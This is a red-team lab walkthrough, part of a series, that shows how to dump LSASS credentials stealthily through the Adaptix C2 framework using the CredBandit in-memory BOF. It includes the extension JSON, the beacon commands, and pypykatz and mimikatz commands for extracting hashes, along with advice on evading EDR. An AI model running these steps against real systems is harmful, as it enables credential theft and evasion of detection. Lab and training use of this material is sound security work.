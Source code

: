 # 11  Adaptix C2 in Action: Stealthy Credential Dumping with a BOF Extension

This guide accompanies the **eleventh** in your series, demonstrating how to stealthily dump all user credentials from SQL Server 1 in the NHA-GOAD lab using a Beacon Object File (BOF) via Adaptix C2. You’ll prepare and load the BOF as a JSON extension, execute it through your active beacon running as `localuser`, and extract both local and domain hashes. Next, you’ll use these credentials to enumerate the domain with BloodHound.

---

> [!WARNING]  
> **OPSEC ALERT: Why Use a BOF for Credential Dumping?**
> 
> - **BOFs (Beacon Object Files) execute in-memory within the beacon process,** avoiding new process creation and minimizing forensic artifacts.
>     
> - This approach is highly stealthy and preferred in environments with advanced EDR (like Elastic EDR), as it reduces detection risk compared to traditional tools (e.g., mimikatz, procdump).
>     
> - **BOFs are single-threaded and must be used carefully,** but they are the red team standard for sensitive operations.
>     
> - Always test BOFs in a lab before using in production to avoid crashing your beacon.
>     
> 
> **Recommendation:**  
> Use BOFs for credential access only when necessary and in controlled environments. Assume defenders may still detect in-memory operations via advanced EDR telemetry.

---

## Key Takeaways

- Download and compile a public credential-dumping BOF (e.g., CredBandit).
    
- Create a JSON extension for the BOF, defining its command and argument structure for Adaptix C2.
    
- Load the extension JSON into Adaptix C2.
    
- Use your active beacon on SQL Server to execute the BOF and dump LSASS memory.
    
- Download the minidump and extract hashes locally.
    
- Identify domain vs. local hashes for further operations.
    
- (Preview) Use recovered domain credentials for BloodHound enumeration in the next phase.
    

---

## Step-by-Step Credential Dumping Guide

## 1. Download and Compile CredBandit BOF

On Kali, clone the CredBandit repository and see the compiled the BOF:

```bash
git clone https://github.com/xforcered/CredBandit.git 
cd CredBandit
cd credBandit 
```
![](../../05%20Images/Pasted%20image%2020250523104430.png)

_Adjust compilation commands as needed per your environment._

## 2. Create the Adaptix Extension JSON for the BOF

Create a JSON file named `credbandit.json` with the following content:

```json
{
  "name": "CredBandit-BOF",
  "description": "Stealthy LSASS minidump using CredBandit BOF.",
  "extensions": [
    {
      "type": "command",
      "agents": ["beacon"],
      "command": "credbandit",
      "description": "Dump LSASS memory in-memory using CredBandit BOF. Provide the LSASS PID.",
      "message": "BOF implementation: credbandit",
      "example": "credbandit 612",
      "args": [
        "INT <pid> (LSASS process ID)"
      ],
      "exec": "execute bof $EXT_DIR()/credBandit.$ARCH().o $PACK_BOF(INT {pid})"
    }
  ]
}
```

- This JSON defines the `credbandit` command for Adaptix C2, matching the BOF’s argument structure.
    
- Ensure the `.o` file (`credbandit.x64.o`) is in the same directory referenced by `$EXT_DIR()`.
    
![](../../05%20Images/Pasted%20image%2020250523104555.png)

## 3. Upload the Extension JSON to Adaptix C2

- Open AdaptixClient and navigate to the Extensions management section.
    
- Upload your `credbandit.json` file via the context menu in the extensions table.
    
- The JSON extension registers the command; Adaptix will load the BOF `.o` file from the extension directory when executed.
    

## 4. Identify the LSASS Process ID

In your active beacon session, run:

```shell
shell tasklist /v 
```
![](../../05%20Images/Pasted%20image%2020250523104111.png)

Locate the PID for `lsass.exe`, , see image above

```shell
lsass.exe     640   
```

## 5. Execute the BOF to Dump LSASS

Run the BOF command in your beacon session:

```shell
credbandit 640
```

Replace `612` with the actual LSASS PID.

The BOF will create an in-memory LSASS minidump and exfiltrate it via the beacon channel.

## 6. Extract Hashes from the Minidump

On Kali, parse the dump using pypykatz or mimikatz:

```shell
pypykatz lsa minidump /path/to/lsass.dmp
```

Or with mimikatz:

```shell
sekurlsa::minidump lsass.dmp sekurlsa::logonpasswords
```

Review the output for usernames, NTLM hashes, and cleartext credentials.

## 7. Identify Domain and Local Credentials

- Domain accounts appear as `DOMAIN\username`.
    
- Local accounts appear as `SQL\localuser` or similar.
    
- Record domain hashes/credentials for the next phase.
    

---

## Tools Used

- Adaptix C2: For extension management and agent control.
    
- CredBandit: Public BOF for in-memory LSASS dumping.
    
- pypykatz/mimikatz: Tools for parsing LSASS minidumps.
    
- Kali Linux: Operator VM for C2 and analysis.
    

---

## References

- [Adaptix Framework - BOF and Extensions](https://adaptix-framework.gitbook.io/adaptix-framework/adaptix-c2/bof-and-extensions)
    
- [CredBandit GitHub](https://github.com/xforcered/CredBandit)
    
- [pypykatz](https://github.com/skelsec/pypykatz)
    
- [mimikatz](https://github.com/gentilkiwi/mimikatz)
    

---

> **Next Steps:** In the next writeup, you’ll use the recovered domain credentials to authenticate and enumerate Active Directory with BloodHound, mapping attack paths for lateral movement and privilege escalation.

---

**TL;DR:**  
Prepare a JSON extension for your BOF (e.g., CredBandit), upload the JSON to Adaptix C2, and use your beacon to execute the credential dump. Extract domain hashes, then leverage them for domain enumeration with BloodHound in the next phase. This method maximizes stealth and effectiveness in EDR-heavy environments.